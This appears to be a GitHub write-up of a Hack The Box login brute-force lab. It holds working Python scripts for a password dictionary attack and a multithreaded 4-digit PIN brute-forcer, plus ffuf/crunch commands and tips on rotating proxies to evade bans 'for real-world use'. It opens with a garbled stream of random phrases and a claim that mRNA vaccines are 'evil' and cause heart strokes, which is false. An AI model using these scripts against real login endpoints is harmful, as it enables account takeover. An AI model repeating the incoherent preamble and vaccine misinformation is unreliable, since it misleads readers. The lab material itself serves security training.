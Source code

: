 # HTB_Login_bruteforce

Today's 29-05-2025 God's speaking: theres no place like home I'm done driving guilty place unsung hero are you insane bye you talkin' to me ahh thats much better failure to communicate Catastrophic Success by the way listen buddy CIA God smack foul white trash bad ol puddytat I'm tired of this economy straighten up BBC crash and burn this might end badly what do you want nerd money It grieves me how come Give me praise Russia

Burte-force attack is can be utilized when the randomity of God reached to human being. Mortile human likes to create their fortless against God. What I mean is When C virus occured from China, the medical companies has developed vaccine to stand against God's oracle. Eventually, side-effect of evil irrversible MRNA vaccine could cause servere heart stroke. This is consequence of the people who dose not decided to follow God's will. I am talking Brute-force attack God's will and punishment of God. 

Here is a code given by the HTB. 

import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break

In some reason the ffuf did not worked out on this URL 
crunch 4 4 0123456789 -o 4-digits.txt
ffuf -u "http://0.0.0.0.:00000/pin?pin=FUZZ" -w 4-digits.txt

They all have returned 401 error.

The code below uses special techniques that allow repentants
to use Multithreading without time.sleep(), artificial Delays

import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

ip = "0.0.0.0"  # Target IP
port = 12345           # Target port

def try_pin(pin):
    formatted_pin = f"{pin:04d}"
    try:
        response = requests.get(
            f"http://{ip}:{port}/pin?pin={formatted_pin}",
            timeout=3  # Prevents hanging on slow responses
        )
        if response.ok and 'flag' in response.json():
            return formatted_pin, response.json()['flag']
    except (requests.RequestException, ValueError) as e:
        pass  # Skip errors (timeouts, JSON decode fails)
    return None

def brute_force():
    with ThreadPoolExecutor(max_workers=50) as executor:  # Adjust workers based on server tolerance
        futures = [executor.submit(try_pin, pin) for pin in range(10000)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                pin, flag = result
                print(f"\n[+] Correct PIN found: {pin}")
                print(f"[+] Flag: {flag}")
                executor.shutdown(wait=False)  # Stop all threads immediately
                return

if __name__ == "__main__":
    print("Starting brute-force attack...")
    brute_force()

1. Multithreading with ThreadPoolExecutor
What It Does:
Instead of testing PINs one-by-one (sequentially), the script sends multiple concurrent requests using a thread pool.

Example: If max_workers=50, it tests 50 PINs simultaneously, drastically reducing total time.

Key Components:
ThreadPoolExecutor: Manages a pool of worker threads.

executor.submit(): Queues a PIN to be tested by an available thread.

as_completed(): Yields futures (thread results) as they finish, out of order.

Why It’s Faster:
Sequential code (original) takes ~10,000 requests × latency (e.g., 0.1s) = 16+ minutes.

Multithreaded (50 workers) takes ~(10,000/50) × latency ≈ 20 seconds.

2. No time.sleep() or Artificial Delays
Original Problem:
Adding time.sleep() between requests slows down brute-forcing (e.g., sleep(0.1) → 16+ minutes total).

Unnecessary: Delays are only needed if the server rate-limits (handled later via max_workers).

Solution:
Remove all delays: Let threads run at full speed.

Control throughput via max_workers:

Fewer workers (e.g., max_workers=10) → Lower server load.

More workers (e.g., max_workers=100) → Faster but riskier (may trigger bans).

3. Error Handling and Timeouts
Critical Improvements:
try/except Blocks:

Catches network errors (e.g., timeouts, connection resets) silently to avoid crashes.

Skips invalid JSON responses (e.g., if the server returns HTML on errors).

timeout=3 in requests.get():

Prevents threads from hanging indefinitely on unresponsive servers.

Frees up threads quickly for new PINs.

Why It Matters:
Without timeouts, a single slow request could stall the entire thread pool.

Silent error handling ensures the script continues even if some requests fail.

4. Early Termination
How It Works:
When a thread finds the correct PIN ('flag' in response), it returns the result.

executor.shutdown(wait=False):

Immediately stops all threads (no wasted requests after success).

wait=False kills pending threads aggressively.

Efficiency Gain:
Avoids testing all 10,000 PINs if the correct one is found early (e.g., at PIN 0427).

5. Thread Safety and Shared State
Design Choices:
No shared variables: Each thread works independently (no locks needed).

Stateless: Threads don’t modify global data; results are returned via futures.

Why It’s Safe:
Threads only read the pin value and send HTTP requests.

Results are collected thread-safely by as_completed().

6. Optional: Dynamic Adjustments
For Real-World Use:
Proxy Rotation: Add proxies to requests.get() if the server bans IPs.

Rate Limiting: Reduce max_workers if the server rejects requests (e.g., HTTP 429).

Progress Tracking:

python
if pin % 100 == 0:
    print(f"Progress: {pin}/10000", end="\r")
Performance Comparison
Metric	Original Code	Enhanced Code (50 threads)
Total Time	~16 minutes	~20 seconds
CPU Usage	Low (single-threaded)	High (parallel)
Network Overhead	Low	Moderate (50 concurrent)
Robustness	Fragile (no error handling)	Resilient (timeouts/retries)
When to Use This Approach
Fast brute-forcing: Ideal for CTFs or pentesting where speed matters.

Servers without rate-limiting: If the target allows high concurrency.

Avoids ffuf limitations: When you need custom logic (e.g., JSON parsing).

Final Notes
Adjust max_workers based on server tolerance (start low, increase gradually).

Monitor for bans (HTTP 429/403); if triggered, add proxies or reduce threads.

For rate-limited targets, consider adding a small delay per thread (e.g., time.sleep(0.05) inside try_pin).

This script balances speed, reliability, and simplicity—perfect for attacking 4-digit PIN endpoints efficiently.




        

